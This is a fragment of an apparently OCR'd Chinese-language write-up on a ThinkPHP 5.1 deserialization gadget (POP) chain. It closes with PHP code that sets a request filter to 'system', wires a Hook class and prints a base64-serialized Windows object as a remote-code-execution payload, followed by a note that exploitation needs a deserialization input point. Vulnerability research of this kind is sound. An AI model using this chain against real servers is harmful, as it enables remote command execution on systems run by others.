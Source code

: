             // PATHINFO变量名 用于兼容模式
            'var_pathinfo'     => 's',
            // 兼容PATH_INFO获取
            'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
            // 默认全局过滤方法 用逗号分隔多个
            'default_filter'   => '',
            // 域名根，如thinkphp.cn
            'url_domain_root'  => '',
            // HTTPS代理标识
            'https_agent_name' => '',
            // IP代理获取标识
            'http_agent_ip'    => 'HTTP_X_REAL_IP',
            // URL伪静态后缀
            'url_html_suffix'  => 'html',
        ];
        function __construct(){
            $this->filter = "system";
            $this->config = new Hook();
            $this->hook = ["append"=>[$this,"isAjax"]];
        }

    }
    namespace think;
    class Hook{
        private $tags = ["var_ajax"=>'a'];
        public function get($tag = '')
        {
            if (empty($tag)) {
                //获取全部的插件信息
                return $this->tags;
            } else {
                return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];
            }
        }
    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

> 漏洞的利用前提是存在一个点可以输入点可以反序列化。

![](./.resource/Thinkphp5.1.1反序列化pop链构造/media/rId26.png)
